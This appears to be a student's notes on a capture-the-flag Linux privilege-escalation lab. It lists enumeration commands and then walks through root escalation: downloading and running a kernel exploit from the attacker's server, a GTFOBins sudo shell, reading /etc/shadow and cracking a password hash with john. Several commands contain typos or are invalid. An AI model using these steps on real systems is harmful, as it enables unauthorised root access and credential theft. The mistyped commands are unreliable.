


---
tags:
  - Linux
  - exploit
  - ps
  - env
  - kernel
---
Link: https://tryhackme.com/r/room/linprivesc

---

# Enumeration

These are some ways to know the system more to get weak points in it.

### `hostname`

To get the host name basically
```bash
hostname
```
---
### `env`

Will get the environment variables of the shell you are in.
```bash
env
```
---
###  `unmae`

Will print system information giving us additional detail about the kernel used by the system.

```bash
uname
```
---
### `/proc/version`

The proc filesystem `(procfs)` provides information about the target system processes.

```bash
/proc/version
```
---
### `/etc/issue`

Systems can also be identified by looking at the `/etc/issue` file. This file usually contains some information about the operating system but can easily be customized or changed.

```bash
/etc/issue
```
---
### `ps`

The `ps` command is an effective way to see the running processes on a Linux system. Typing `ps` on your terminal will show processes for the current shell.

```bash
ps -aux
```

The `aux` option will show processes for all users (a), display the user that launched the process (u), and show processes that are not attached to a terminal (x).

---
### `Id`

The `id` command will provide a general overview of the user’s privilege level and group memberships.

```bash
id
```
---
### `/etc/passwd`

Reading the `/etc/passwd` file can be an easy way to discover users on the system.
```bash
cat /etc/passwd
```

we can get only the users by this command:
```bash
cat /etc/passwd | cud -d ":" -f 1
```

and we can `grep` on it:
```bash
cat /etc/passwd | grep root
```
---
### `history`

Looking at earlier commands with the `history` command can give us some idea about the target system and, albeit rarely, have stored information such as passwords or usernames.

---
### `ifconfig`

The `ifconfig` command will give us information about the network interfaces of the system.

```bash
ifconfig
```
---
### `netstat`

Following an initial check for existing interfaces and network routes, it is worth looking into existing communications. The `netstat` command can be used with several different options to gather information on existing connections.

- `netstat -a`: shows all listening ports and established connections.
	- `netstat -at` or `netstat -au` can also be used to list `TCP` or `UDP` protocols.

- `netstat -l`: list ports in “listening” mode.

- `netstat -s`: list network usage statistics by protocol
	- with the `-t` or `-u` options to limit the output to a specific protocol.
		- `netstat -tp`: list connections with the service name and `PID` information.

- `netstat -i`: Shows interface statistics.

- `netstat -n`: Do not resolve names

- `netstat -o`: Display timers

The most used one:
```bash
netstat -ano
```
---
### `find`

- `find . -name flag1.txt`: find the file named `flag1.txt` in the current directory

- `find /home -name flag1.txt`: find the file names `flag1.txt` in the /home directory

- `find / -type d -name config`: find the directory named config under `/`

- `find / -type f -perm 0777`: find files with the 777 permissions (files readable, writable, and executable by all users)

- `find / -perm a=x`: find executable files

- `find /home -user frank`: find all files for user `frank` under `/home`

- `find / -mtime 10`: find files that were modified in the last 10 days

- `find / -atime 10`: find files that were accessed in the last 10 day

- `find / -cmin -60`: find files changed within the last hour (60 minutes)

- `find / -amin -60`: find files accesses within the last hour (60 minutes)

- `find / -size 50M`: find files with a 50 MB size 

- `find / -writable -type d 2>/dev/null` : Find `world-writeable` folders

- `find / -perm -222 -type d 2>/dev/null`: Find `world-writeable` folders

- `find / -perm -o w -type d 2>/dev/null`: Find `world-writeable` folders

- `find / -perm -o x -type d 2>/dev/null` : Find world-executable folders

- `find / -name perl*`

- `find / -name python*`

- `find / -name gcc*`

- `find / -perm -u=s -type f 2>/dev/null`: Find files with the `SUID` bit, which allows us to run the file with a higher privilege level than the current user.
---

### General Linux Commands

As we are in the Linux realm, familiarity with Linux commands, in general, will be very useful. Please spend some time getting comfortable with commands such as `find`, `locate`, `grep`, `cut`, `sort`, etc.

---

### The Flags

#### What is the host name of the target system?
```bash
hostname
```

#### What is the Linux kernel version of the target system?
```bash
uname -a
```

#### What Linux is this?
```bash
cat /etc/os-release
```

#### What version of the Python language is installed on the system?
```bash
python --version
```

#### What vulnerability seem to affect the kernel of the target system?

 Enter the `kali`:
```bash
searchsploit kernel 3.13.0
```

Search on `Exploit-DB` on the `kernel 3.13.0`

---

# Privilege Escalation: Kernel Exploits

#### Get the kernel version
```bash
uname -a
```

Then download it from [Exploit-DB](https://www.exploit-db.com/)

#### Start a python server
```bash
python3 -m http.server
```

#### Go to `/tmp/`

```bash
cd /tmp/
```
#### Download it to the machine
```bash
wget {ip}:8000/exploit.c
```

#### Compile and run
```bash
gcc exploit.c
./a.out
```

#### Get the flag
```bash
cat /home/matt/flag1.txt
```

---
# Privilege Escalation: `Sudo`

#### *First*
```bash
sudo -l
```

There are three binaries can run as root
#### [GTFOBINS](https://gtfobins.github.io/)

Let's use the find command to get the root
```bash
sudo find . -exec /bin/sh \; -quit
```
Now we are root!

#### Get flag2
```bash
cat /home/ubuntu/flag2.txt 
```

#### Get the hash

```bash
cat /etc/shadow | grep frank
```

____
# Privilege Escalation: `SUID`

#### Finding `SUID`

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

i found my target !!


#### Let's read the shadow to get the hashes

```bash
base64 /etc/shadow | base64 -d 
```

and i found the desired hashes...




#### Let's crack the hash of `user2`

```bash
echo "$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/" > hash; john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash
```
 ---
 